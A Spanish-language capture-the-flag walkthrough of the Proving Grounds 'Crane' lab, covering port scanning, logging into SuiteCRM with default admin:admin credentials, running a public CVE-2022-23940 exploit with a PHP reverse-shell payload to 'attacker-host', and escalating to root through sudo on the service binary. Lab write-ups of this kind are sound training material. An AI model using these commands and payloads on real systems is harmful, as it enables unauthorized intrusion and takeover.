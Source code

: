 # Crane

## Descripción

Dificultad: intermedia (valorada como easy)

En esta maquina de Proving Grounds Practice, veremos la explotación del software SuiteCRM a través de un exploit publico y una escalada de privilegios aprovechándonos de permisos sobre un binario que es posible ejecutar con sudo.

## Escaneo y Análisis de Vulnerabilidades

Iniciamos realizando un escaneo con nmap sobre la maquina crane

```bash
nmap -p- --open -T4 -Pn -n -vvv -sS 192.168.250.146  -oG allPorts
```
![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled.png)

Exportamos los resultados en formato grepeable para poder copiar y pegar los puertos obtenidos en un nuevo escaneo a través de la función extracPorts.

Esta función es un extra que podéis añadir a vuestra zshrc para agilizar vuestros escaneos.

Una vez en vuestra zshrc debeis cerrar la terminal y abrir una nueva para que se completen los cambios.

```bash
# Funcion extracPorts
# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp; rm extractPorts.tmp
}
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%201.png)

Nos interesa el puerto 80 del cual obtendremos mas información en el siguiente escaneo.

```bash
nmap -p22,80,3306,33060 -sCV 192.168.250.146 -oN target
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%202.png)

Vemos que en el puerto 80 hay un servidor apache, por lo que pasamos a ver su contenido.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2031.png)

Nos encontramos ante un login, lo primero que se me ocurre es probar credenciales por defecto como admin:admin y… 

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%204.png)

Exito!

## Explotación

Tras obtener unas credenciales validas he pasado a buscar si existe algún exploit publico para la versión de este software y encontré el siguiente.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%205.png)

Exploit:

[https://github.com/manuelz120/CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)

Ejecutando la siguiente linea de comandos obtenemos la reverse shell

```bash
# Nos ponemos a la escucha
nc -nlvp 80

# Ejecutamos exploit
./exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"attacker-host\", 80); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

y voila!

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%206.png)

Tras realizar un tratamiento de la tty

```bash
# tratamiento de la tty
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236

```

La primera flag se encuentra en /var/www

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%207.png)

## Escalda de privilegios

si comprobamos los permisos sudo del usuario vemos que podemos ejecutar el binario service con sudo.

```bash
sudo -l
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%208.png)

En la siguiente web encontramos como podemos explotar este binario con sudo

[https://gtfobins.github.io/gtfobins/service/#sudo](https://gtfobins.github.io/gtfobins/service/#sudo)

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%209.png)

Ejecutamos y…

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2010.png)

La flag se encuentra en /root

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2011.png)

Maquina Crane Pwned!

